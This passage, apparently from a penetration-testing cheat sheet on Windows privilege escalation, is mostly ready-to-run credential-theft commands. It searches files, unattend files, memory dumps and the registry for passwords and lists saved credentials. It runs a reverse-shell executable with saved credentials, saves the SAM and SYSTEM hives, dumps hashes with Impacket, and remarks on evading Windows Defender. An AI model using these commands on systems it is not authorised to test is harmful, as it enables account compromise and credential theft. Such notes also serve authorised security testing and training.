     findstr /si password *.xml *.ini *.txt *.config 2>nul    
    dir /s *pass* == *vnc* == *.config* 2>nul    
    dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul    
    
DMP Files (possible base64 passwords)  - find or create from processes

    strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"    
    
Unattend files (could contain base64 encoded passwords):   

    C:\unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml
    
### Saved creds   

    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
    cmdkey /list   
    dir C:\Users\username\AppData\Local\Microsoft\Credentials\   
    dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\   
    runas /savecred /user:[user name] C:\PrivEsc\reverse.exe  

### Creds in Registry 
    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s 
### SAM and SYSTEM Files
    %SYSTEMROOT%\repair\SAM
    %SYSTEMROOT%\System32\config\RegBack\SAM
    %SYSTEMROOT%\System32\config\SAM
    %SYSTEMROOT%\repair\system
    %SYSTEMROOT%\System32\config\SYSTEM
    %SYSTEMROOT%\System32\config\RegBack\system 
### Extracting SAM and SYSTEM    
[CVE-2021-36934, the SeriousSAM local privilege escalation](https://github.com/HuskyHacks/ShadowSteal)  
Extract Mmanually or use [mimikatz](https://github.com/gentilkiwi/mimikatz) 

Manually:

     reg.exe save HKLM\SAM sam.bak 
     reg.exe save HKLM\SYSTEM system.bak 
     *transfer files to attack box then dump* 
     python3 /usr/local/bin/secretsdump.py -sam sam.bak -system system.bak LOCAL 
     
     #dump local passwords with Impacket
     pwdump.py sys_backup.hiv sec_backup.hiv
     
     #dump LSA secrets with Impacket
     lsadump.py sys_backup.hiv sec_backup.hiv          

Extract hashes with Mimikatz (Windows Defender will catch this so it's better to use the below method):    
